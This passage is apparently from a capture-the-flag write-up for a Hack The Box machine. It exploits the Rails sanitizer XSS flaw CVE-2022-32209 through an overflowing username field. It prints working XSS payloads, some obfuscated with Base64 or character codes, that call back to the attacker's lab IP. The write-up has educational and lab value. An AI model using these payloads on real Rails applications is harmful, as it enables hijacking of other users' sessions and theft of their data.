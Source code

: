 The overflow kind of worked, managed to remove the last portion about the created bit. I then went to try various different payloads including \<img> tags and stuff. DIdn't really work. I then suspected this has to do with some kind of CVE that was released recently (usual pattern of HTB, uses CVEs from 2022), and went hunting for Ruby + XSS related exploits that came out recently.

I eventually found CVE-2022-32209, which was a XSS exploit for Rails::Html::Sanitizer. &#x20;

{% embed url="https://groups.google.com/g/rubyonrails-security/c/ce9PhUANQ6s?pli=1" %}

Seems that the \<select> tag was being used maliciously. I then tried the same overflow trick with this payload:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/xss.pls'>
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

This worked! I was able to get a callback as well:

<figure><img src="../../../.gitbook/assets/image (1) (3) (2).png" alt=""><figcaption></figcaption></figure>

Now, we just need to find a way to exploit this XSS.

### XSS for /administrator

Understanding that we now have XSS, I was thinking of using CSRF in order to retrieve more information about the /administration page. The reason CSRF is used is because **CSRF tokens do not protect against XSS.** We had a simple rails cookie that was HttpOnly, so XSS needs to do something else.

Since we can basically execute basic web requests using our username, we need to think of how to redirect the user somewhere. We can abuse the **eval** function to inject malicious JS code.&#x20;

First, I made a simple script that would callback to our machine.

```javascript
var xmlHttp = new XMLHttpRequest();
xmlHttp.open("GET", "http://10.10.14.29/stringcallback", false);
xmlHttp.send(null);
```

Then I encoded it using Base64, and wanted to see if I was able to get the callback I wanted using event attributes. The end username was this:

{% code overflow="wrap" %}
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/imgfail' onerror="eval(decode64('dmFyIHhtbEh0dHAgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKeG1sWG1sSHR0cC5vcGVuKCJHRVQiLCAiaHR0cDovLzEwLjEwLjE0LjI5L3NjcmlwdGNhbGxiYWNrIiwgdHJ1ZSk7CnhtbEh0dHAuc2VuZChudWxsKTs='))">
```
{% endcode %}

Base64 Encoding did not work, so I tried with Char Coding instead. What Char Coding does is basically translate all the characters within my script to become ASCII letters.&#x20;

The payload becomes this:

{% code overflow="wrap" %}
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/imgfail' onerror="eval(String.fromCharCode(118, 97, 114, 32, 120, 109, 108, 72, 116, 116, 112, 32, 61, 32, 110, 101, 119, 32, 88, 77, 76, 72, 116, 116, 112, 82, 101, 113, 117, 101, 115, 116, 40, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 111, 112, 101, 110, 40, 34, 71, 69, 84, 34, 44, 32, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 46, 49, 48, 46, 49, 52, 46, 50, 57, 47, 115, 116, 114, 105, 110, 103, 99, 97, 108, 108, 98, 97, 99, 107, 34, 44, 32, 102, 97, 108, 115, 101, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 115, 101, 110, 100, 40, 110, 117, 108, 108, 41, 59))">
```
{% endcode %}
